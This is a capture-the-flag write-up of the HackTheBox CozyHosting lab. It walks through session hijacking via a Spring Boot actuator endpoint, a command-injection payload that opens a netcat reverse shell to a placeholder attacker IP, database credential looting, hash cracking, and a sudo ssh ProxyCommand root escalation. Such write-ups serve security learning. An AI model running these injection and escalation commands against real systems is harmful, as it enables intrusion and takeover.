


# HackTheBox - CozyHosting

I started with the usual portscan.

`nmap -p- -T4 -sV -sC <IP>`


We can see an open SSH and web server.

We can also see from the nmap output that we have a domain `cozyhosting.htb`.

I entered this domain in the `/etc/hosts` files and looked at the website.


And there was a login.


I first tried it with SQL injections and noSQL injections which did not work.

In the meantime, I went through various enumerations and found something interesting using ffuf.

`ffuf -w raft-medium-words.txt -u http://cozyhosting.htb/FUZZ -ic`




Now I first read a bit about [Spring Boot Actuators](https://0xn3va.gitbook.io/cheat-sheets/framework/spring/spring-boot-actuators).

We have various endpoints here which we can enumerate.

The topic around __Spring Boot Actuators__ is quite large and there are various gaps and information leaks that can occur with Spring Boot endpoints.

I enumerated the endpoints and got a bit lost by using different techniques to get sensitive information and looking at and trying different exploit techniques.

However, none of this worked.

I had already had the key to success when enumerating the endpoints at the following endpoint `/actuator/sessions`.


However, the simple solution only occurred to me when I looked at the `/login` request in burp.


The values from the `/actuator/session` endpoint were session ID's!

So I intercepted a request to the `/admin` panel and entered the current session ID of __kanderson__ into the request in burp.

And I got to see an admin dashboard!


The second step concerning the web application went much faster.

I tested the __Include Host__ function from the Admin Dashboard and took a closer look in burp.


I repeated the whole thing with different inputs, special characters and so on.

The application provided me with helpful error messages.


OK, `.../bin/bash:...`, `...command not found...`, that sounds pretty much like __Command Injection__

I set the second parameter `username=`, started a netcat listener and quickly found a working RCE-POC:

```
host=localhost&username=kanderson;`busybox${IFS}nc${IFS}<ATTACKER_IP>${IFS}9009${IFS}-e${IFS}/bin/bash`#
```


And got a reverse shell on my listener as __app__.


## app -> josh

From here it went quite quickly and smoothly towards the root flag.

I downloaded the `.jar` application to my computer and unpacked it to have a look at the source code.


I unpacked it and used `grep` to search for passwords in the web application code.

In the file `/BOOT-INF/classes/application.properties` I found a password to the __PostgreSQL__ database.


I logged into the database.

`psql -h 127.0.0.1 -d cozyhosting -U postgres`


List Databases: `\l`


List all tables of current Database: `\dt`


Get all users from table: `SELECT * FROM users;`


OK, we see two `bcrypt` hashes which I cracked using __hashcat__.


With the cracked password I logged into the system as user __josh__ and got the first flag.



## josh -> root

The privilege escalation to root was done very quickly.

`sudo -l` shows us that as root user we are authorized to execute the binary `/usr/bin/ssh` at will.

A look at [GTFOBins](https://gtfobins.github.io/gtfobins/ssh/) shows us how we can exploit this.

`sudo -u root /usr/bin/ssh -o ProxyCommand=';sh 0<&2 1>&2' x`

And the root flag was owned.


